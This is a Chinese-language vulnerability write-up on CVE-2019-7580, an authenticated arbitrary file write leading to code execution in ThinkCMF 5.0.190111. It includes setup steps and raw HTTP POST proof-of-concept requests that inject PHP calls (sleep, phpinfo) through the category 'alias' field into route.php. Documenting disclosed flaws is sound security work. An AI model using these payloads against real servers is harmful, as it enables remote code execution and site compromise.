


## CVE-2019-7580 thinkcmf-5.0.190111后台任意文件写入导致的代码执行  

# 0x00 环境搭建  

首先去thinkcmf下载5.0的最新版  
https://github.com/thinkcmf/thinkcmf/archive/5.0.190111.zip  
切换到web根目录下，比如/var/www，然后新建一个目录：ThinkCMF-5.0.190111  
把除public目录外的文件都移动到ThinkCMF-5.0.190111下。然后修改index.php，将其中的  

```
define('CMF_ROOT', __DIR__ . '/../');
```

修改为  

```
define('CMF_ROOT', __DIR__ . '/ThinkCMF-5.0.190111/');
```

然后一步步完成安装。  
参考：https://blog.csdn.net/youaregoo/article/details/82219722  

# 0x01 利用过程：  

后台登录状态下，  
1、将payload插入数据库并读取然后写入data/conf/route.php文件  

```
POST /portal/admin_category/addpost.html
parent_id=0&name=111&alias=a'=>array(%22%22)%2csleep(5)%2c'b
```

2、然后访问：  

```
/portal/admin_category/index.html
```

触发  

```
include data/conf/route.php  
```

操作，执行payload。下图以执行sleep(5)作为演示。  



## POC  

```raw
POST /portal/admin_category/addpost.html HTTP/1.1
Host: 192.168.170.209
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close

parent_id=0&name=111&alias=1'%3D%3Earray(%22%22)%2Cphpinfo()%2C'2
```

## 测试demo    



> 来源： https://xz.aliyun.com/t/3997 